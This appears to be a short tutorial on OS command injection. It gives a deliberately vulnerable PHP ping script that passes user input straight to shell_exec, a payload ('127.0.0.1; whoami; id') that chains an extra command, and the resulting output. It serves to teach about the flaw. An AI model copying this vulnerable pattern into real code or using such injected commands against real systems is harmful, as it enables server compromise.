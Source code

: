 Command injection occurs when application gets and input from outside and execute that as system command.

# Vulnerable Code 1
This simple code will get a POST request with ip parameter and execute it with "shell_exec" command. Normally it intended to ping to an ip adress. 

```php
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```

## Abusing

If we end command with ";" character (on linux) and add another system command, both of them will be executed and result will be reflected to user.

## Payload

```bash
127.0.0.1; whoami; id
```

## Result

```bash
PING 127.0.0.1 (127.0.0.1): 56 data bytes
64 bytes from 127.0.0.1: icmp_seq=0 ttl=64 time=0.033 ms
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.045 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.046 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.042 ms
--- 127.0.0.1 ping statistics ---
4 packets transmitted, 4 packets received, 0% packet loss
round-trip min/avg/max/stddev = 0.033/0.042/0.046/0.000 ms
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
